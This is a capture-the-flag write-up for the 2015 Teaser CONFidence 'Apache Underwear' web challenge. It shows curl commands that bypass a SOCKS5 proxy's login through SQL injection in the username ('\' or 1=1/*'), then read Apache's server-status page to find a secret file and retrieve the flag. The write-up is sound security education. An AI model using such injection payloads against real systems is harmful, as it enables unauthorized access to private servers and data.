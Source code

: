 # Teaser CONFidence CTF 2015: Apache Underwear

----------
## Challenge details
| Contest        | Challenge     | Category  | Points |
|:---------------|:--------------|:----------|-------:|
| Teaser CONFidence CTF 2015 | Apache Underwear | Web |    400 |

**Description:**
>*Pwn [this server](http://134.213.136.187:8080/). Keep in mind, this is a web challenge :-O.*

----------
## Write-up

When connecting to the server, we are served the following page content:

>```html
>Youe IP (x.x.x.x) is too world wide ;<!-- Try wearing socks on 9090 , then visit local apache :) -->
>```

Obviously this is a hint at the fact that the server only accepts connections coming from the local network (or localhost) and we have to connect to a socks server on port 9090 first.

Let's give it a first try:

>```bash
>$ curl --socks5 134.213.136.187:9090 http://127.0.0.1/
>curl: (7) No authentication method was acceptable. (It is quite likely that the SOCKS5 server wanted a username/password, since none was supplied to the server on this connection.)
>$ curl --socks5 ayy:lmao@134.213.136.187:9090 http://127.0.0.1/
>curl: (7) User was rejected by the SOCKS5 server (1 99).
>```

So we don't know the username and password to the socks5 server. Since this is a web challenge we made a wild guess that the socks5 server might use some kind of dbms backend to do user management, so we tried SQL injection:

>```bash
>$ curl --socks5 "' or 1=1/*:pass@134.213.136.187:9090" "http://127.0.0.1:8080/"
>Nice One ! close ...  <!-- your ip is local now, go deep into my tipi -->
>```

Ok, so that worked. After some messing around and trying various different pages we decided to give apache's [mod_status page](http://httpd.apache.org/docs/2.2/mod/mod_status.html) a try (since this will disclose quests currently being processed):

>```bash
>$ curl --socks5 "' or 1=1/*:pass@134.213.136.187:9090" "http://127.0.0.1:8080/server-status"
><!DOCTYPE html PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
><html><head>
><meta http-equiv="content-type" content="text/html; charset=ISO-8859-1">
><title>Apache Status</title>
></head><body>
><h1>Apache Server Status for 127.0.0.1</h1>
>(...)
><table border="0"><tbody><tr><th>Srv</th><th>PID</th><th>Acc</th><th>M</th><th>CPU
></th><th>SS</th><th>Req</th><th>Conn</th><th>Child</th><th>Slot</th><th>Client</th><th>VHost</th><th>Request</th></tr>
>
><tr><td><b>0-0</b></td><td>2989</td><td>0/2/2</td><td>_
></td><td>0.01</td><td>549</td><td>0</td><td>0.0</td><td>0.00</td><td>0.00
></td><td>127.0.0.1</td><td nowrap="nowrap">127.0.1.1</td><td nowrap="nowrap">GET /omg-omg-s3cr3t-file.txt HTTP/1.0</td></tr>
>
><tr><td><b>1-0</b></td><td>2990</td><td>0/1/1</td><td><b>W</b>
></td><td>0.01</td><td>0</td><td>0</td><td>0.0</td><td>0.00</td><td>0.00
></td><td>127.0.0.1</td><td nowrap="nowrap">127.0.1.1</td><td nowrap="nowrap">GET /server-status HTTP/1.1</td></tr>
>(...)
><address>Apache/2.2.22 (Ubuntu) Server at 127.0.0.1 Port 80</address>
>
></body></html>
>```

The following immediately stands out:

>*GET /omg-omg-s3cr3t-file.txt*

Let's try that one:

>```bash
>$ curl --socks5 "' or 1=1/*:pass@134.213.136.187:9090" "http://127.0.0.1:8080/omg-omg-s3cr3t-file.txt"
>DrgnS{S0xySqliAndAp4ch3}
>```